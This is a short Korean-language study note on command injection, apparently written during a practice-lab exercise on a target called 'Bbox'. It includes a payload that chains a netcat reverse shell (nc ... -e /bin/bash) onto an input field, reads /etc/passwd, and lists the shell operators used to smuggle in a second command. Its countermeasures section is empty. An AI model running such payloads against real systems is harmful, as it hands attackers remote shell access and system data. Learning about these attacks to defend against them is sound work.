

 

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

 

 

## Command Injection

OS명령어를 입력하여 내부정보 유출 및 악의적인 행위를 수행

포트를 열고 포트서버에 연결하여 원격조정을 해보자

 

### 리눅스

- 포트 열고

 

### Bbox

`www.nsa.gov && nc -vn 172.30.1.31 8888 -e /bin/bash`

- 다음과 같이 입력
- -e /bin/bash 옵션은 shell을 이용해 상호작용하기 위함
- -e 는 exec의 약자로 뒤에 넣은 것 실행

 

### 리눅스

- 연결 확인

### 결과

- whoami, hostname, id 를 통해 서버에서 개인정보 확인 가능

- 또한, Bbox에서도 command 명령어와 cat 명령어 통해 /etc/passwd 디렉토리 정보 확인 가능

 

### Command 명령어

; 앞 명령어 실패와 상관없이 다음 명령어 실행

|| 앞 명령어 실패시 다음 명령어 실행(디렉토리 이동 시 사용)

| 앞 명령의 결과를 뒤 명령어에게 넘겨줌(more, awk, grep와 같이 사용)

&& 앞 명령어가 성공 시 다음 명령어 실행

& 앞 명령어를 백그라운드로 실행하고 다음 명령어 실행

 

 

## 대응방안

 